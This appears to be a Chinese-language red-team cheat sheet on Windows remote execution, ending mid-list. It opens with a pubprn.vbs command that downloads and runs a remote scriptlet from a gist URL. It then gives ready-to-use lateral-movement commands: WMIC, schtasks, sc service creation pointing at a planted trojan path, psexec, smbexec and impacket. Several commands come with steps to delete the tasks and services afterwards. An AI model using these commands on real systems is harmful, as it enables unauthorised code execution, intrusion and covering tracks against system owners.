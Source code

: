 **pubprn.vbs**

在 Windows 7 以上版本存在一个名为 PubPrn.vbs 的微软已签名 WSH 脚本，其位于`C:\Windows\System32\Printing_Admin_Scripts\en-US`，仔细观察该脚本可以发现其显然是由用户提供输入（通过命令行参数），之后再将参数传递给 GetObject()

```
"C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs" 127.0.0.1 script:https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sct
```

---

### Windows远程执行命令

**WMIC 远程运行命令**
```cmd
wmic /node:host /user:administrator /p 密码 process call create “c:\windows\temp\foobar.exe”
```

**powershell remoting 执行命令**

- schtasks 计划任务远程运行
    ```cmd
    schtasks /create /tn foobar /tr c:\windows\temp\foobar.exe
    /sc once /st 00:00 /S host /RU System schtasks /run /tn foobar /S host
    schtasks /F /delete /tn foobar /S host                          ## 清除 schtasks
    ```

- SC 添加服务远程运行命令
    ```cmd
    sc \\host create foobar binpath=“c:\windows\temp\foobar.exe”    ## 新建服务,指向拷贝的木马路径
    sc \\host start foobar                                          ## 启动建立的服务
    sc \\host delete foobar                                         ## 完事后删除服务
    ```

**PStools 远程执行命令s**
```cmd
psexec.exe \\ip –accepteula -u username -p password program.exe
```

```
psexec \\ip -u user -p passwd cmd /c dir D:\
```

**smbexec 远程执行命令**
```cmd
copy execserver.exe \\host\c$\windows\
test.exe ip user password command netshare
```

**impacket**
- https://github.com/SecureAuthCorp/impacket
    ```bash
    git clone https://github.com/CoreSecurity/impacket.git
    cd impacket/
    python setup.py install
    cd impacket/examples
    ```
    - **Psexec.py**
